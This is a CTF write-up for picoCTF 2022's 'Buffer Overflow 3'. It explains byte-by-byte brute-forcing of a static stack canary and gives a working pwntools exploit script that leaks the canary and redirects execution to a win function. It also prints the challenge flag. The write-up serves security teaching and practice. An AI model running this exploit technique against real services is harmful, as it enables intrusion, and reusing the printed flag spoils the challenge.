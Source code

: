 ```yaml
---
title: Buffer Overflow 3
description: Static canary bruteforce
summary: Static canary bruteforce
date: 2022-03-30
tags:
- pwn
ctf:
- picoCTF 2022
draft: false
---
```


As always, we have a binary running on a server we need to exploit to get the flag. We still have access to the binary file and to the source code.<br>
As the name of the challenge implies, it's a buffer overflow. But this time, a canary is in place to protect the binary.<br>
The issue resides in the fact that the canary is not random but taken from a file, meaning it'll always be the same.

Knowing this, we can bruteforce it pretty easily. Bruteforcing the entire canary at once would be way too long to be achievable, but as the canary has always the same value, we can bruteforce it byte by byte.

We can put just enough garbage data to fill the stack until the canary, then only overwrite one byte of the canary and see if it crashes.<br>
As long as it does, we know this is not the right byte and we can try the next one.<br>
When the program completes without crashing, we know we have used the right byte to overwrite the canary's first byte. We can then keep it and try the same process against the second byte, and so on, to leak the whole canary.

Here is my exploit script:

```py
from pwn import *

domain = "saturn.picoctf.net"
port = 60618

def get_canary():
    canary_bytes = []

    for i in range(4):
        canary_bytes.append(0)
        for j in range(256):
            canary_bytes[i] = (j + 65) % 256 # +65 is to speed up the process : I guess the canary is composed of letters that has a meaning, and letters begin at value 65 (A)

            p = remote(domain, port)

            p.recv()
            p.send(b"9999\n")
            p.recv()
            p.send(b"A" * 64 + "".join([chr(o) for o in canary_bytes]).encode("utf-8"))
            result = p.recvall().decode("utf-8")
            if "Stack Smashing Detected" not in result:
                context.log_level = "info"
                log.info(f"Found byte {i + 1} of the canary = {canary_bytes[i]}")
                context.log_level = "error"
                break
                
            assert(j < 255) # we should never end up at the end of the loop without having found the right canary byte value we're after

    return "".join([chr(o) for o in canary_bytes]).encode("utf-8")

p = remote(domain, port)
context.log_level = "error"

canary = get_canary()
win = p32(0x8049336)

p.recv().decode("utf-8")
p.send(b"9999\n")
p.recv().decode("utf-8")
p.send(b"A" * 64 + canary + p32(0) * 4 + win)

context.log_level = "info"
log.info(p.recvall().decode("utf-8"))
```

Once we leaked the canary, we successfully exploit the buffer overflow to get the flag.

![](flag.png)

Flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_32625866}`